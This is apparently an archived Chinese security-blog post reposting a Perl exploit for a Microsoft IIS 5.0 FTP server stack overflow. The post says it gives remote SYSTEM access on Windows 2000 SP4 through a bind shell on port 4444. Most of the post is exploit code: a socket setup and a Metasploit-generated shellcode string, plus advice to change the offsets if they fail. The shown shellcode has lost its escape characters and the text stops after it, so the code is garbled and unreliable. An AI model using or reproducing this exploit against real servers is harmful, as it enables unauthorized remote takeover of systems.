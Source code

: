 ```yaml
---
title: Microsoft IIS 5.0 FTP Server Remote Stack Overflow Exploit 中英文通用版
description: MicrosoftIIS5.0FTPServerRemoteStackOverflowExploit中英文通用版绑定4444端口，Windows2000CN+SP4测试通过，需要能建目录的用户，偏移地址若不通用，请自行修改。#!/usr/bin/perl#IIS5.0FTPServer/RemoteSYSTEMexploit#Win2kSP4targets#bugfound&exploitedbyKingcope,kcope2<at>googlemail.com#AffectsIIS6withstackcookieprotection#Moddedbymuts,additionalegghunteraddedforsecondarylargerpayload#Mighttakeaminuteortwofortheeggtobefound.#Opensbindshellonport4444……
date: 2009-10-01 11:17:07
category: 漏洞信息
tags: ['微软', 'IIS', 'FTP', '缓冲区溢出', 'exploit', '漏洞信息']
post_id: 989
alias: Microsoft-IIS-5.0-FTP-Server-Remote-Stack-Overflow-Exploit
ViewNums: 3499
---
```


[Microsoft IIS 5.0 FTP Server Remote Stack Overflow Exploit 中英文通用版](/blog/microsoft-iis-50-ftp-server-remote-stack-overflow-exploit)
绑定4444端口，Windows 2000 CN + SP4 测试通过，需要能建目录的用户，偏移地址若不通用，请自行修改。

#!/usr/bin/perl
# [IIS 5.0 FTP Server / Remote SYSTEM exploit](/blog/microsoft-iis-50-ftp-server-remote-stack-overflow-exploit)
# Win2k SP4 targets
# bug found & exploited by Kingcope, kcope2<at>googlemail.com
# Affects IIS6 with stack cookie protection
# Modded by muts, additional egghunter added for secondary larger payload
# Might take a minute or two for the egg to be found.
# Opens bind shell on port 4444

# http://www.offensive-security.com/0day/msftp.pl.txt

use IO::Socket;
$|=1;
$sc = "x89xe2xddxc5xd9x72xf4x5fx57x59x49x49x49x49x43" .
"x43x43x43x43x43x51x5ax56x54x58x33x30x56x58x34" .
"x41x50x30x41x33x48x48x30x41x30x30x41x42x41x41" .
"x42x54x41x41x51x32x41x42x32x42x42x30x42x42x58" .
"x50x38x41x43x4ax4ax49x45x36x4dx51x48x4ax4bx4f" .
"x44x4fx47x32x46x32x42x4ax43x32x46x38x48x4dx46" .
"x4ex47x4cx45x55x51x4ax44x34x4ax4fx48x38x46x34" .
"x50x30x46x50x50x57x4cx4bx4bx4ax4ex4fx44x35x4a" .
"x4ax4ex4fx43x45x4bx57x4bx4fx4dx37x41x41";
# ./msfpayload windows/shell_bind_tcp R |  ./msfencode -e x86/shikata_ga_nai -b "x00x0ax0d"
